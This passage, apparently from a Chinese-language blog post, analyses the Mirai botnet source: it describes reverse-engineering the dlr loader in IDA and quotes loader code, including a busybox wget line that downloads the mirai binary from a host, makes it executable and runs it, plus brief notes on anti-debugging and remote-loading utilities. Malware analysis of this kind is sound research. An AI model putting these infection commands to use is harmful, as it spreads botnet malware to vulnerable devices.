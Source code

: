 其实 `loader/bins` 目录下就是叫 `dlr` 的程序的各种架构的二进制编译版本。因为本机恰好有 IDA，里面有 Hex-Rays，可以反编译 x86 架构的程序，于是我就从 `dlr.x86` 文件入手了。打开文件，按下 F5 查看伪代码，发现几乎所有的函数都无法解析，然而汇编我又不熟，所以只能看唯一一个可以解析的函数 `sub_804819D`。大部分代码都看不懂（其实解析出来的代码只有 61 行），但是里面有这么一段：

```c
if (sub_8048146(v3, "GET /bins/mirai.x86 HTTP/1.0\r\n\r\n", i + 29) != i + 29)
    sub_80480E0(3);
```

这是尝试加载一个文件。然而我没能获取到这个文件，因此只能作罢。

加载完二进制之后，接着创建一个服务器：

```c
if ((srv = server_create(sysconf(_SC_NPROCESSORS_ONLN), addrs_len, addrs, 1024 * 64, "100.200.100.100", 80, "100.200.100.100")) == NULL) {
    printf("Failed to initialize server. Aborting\n");
    return 1;
}
```

之后可以通过这个服务器进行 tftp/wget 的下载，以及文件读写操作，代码中大量调用了 busybox 的功能，例如：

```c
util_sockprintf(conn->fd, "/bin/busybox wget http://%s:%d/bins/%s.%s -O - > "FN_BINARY "; /bin/busybox chmod 777 " FN_BINARY "; " TOKEN_QUERY "\r\n", wrker->srv->wget_host_ip, wrker->srv->wget_host_port, "mirai", conn->info.arch);
```

所以可见搭载 busybox 的系统是其目标之一。此外这个服务器还有其它的功能，例如建立 Telnet 连接（地址需要手动输入），显示全部连接的状态，这应该是监控病毒状态用的。

# 病毒本体部分

## 实用工具

### badbot.c

显示指定的 bot 信息，然而里面只有一句 `printf`，不知道意义何在。

### enc.c

常用数据类型（`string`、`ip`、`uint32`、`uint16`、`uint8`、`bool`）的加解密。

### nogdb.c

修改 ELF 文件头，使得其无法在 GDB 中运行。

### scanListen.go

监视扫描器的扫描记录。

### single_load.c

加载指定 `IP:Port` 下面指定的文件，估计是用于运行远程服务器上的病毒。
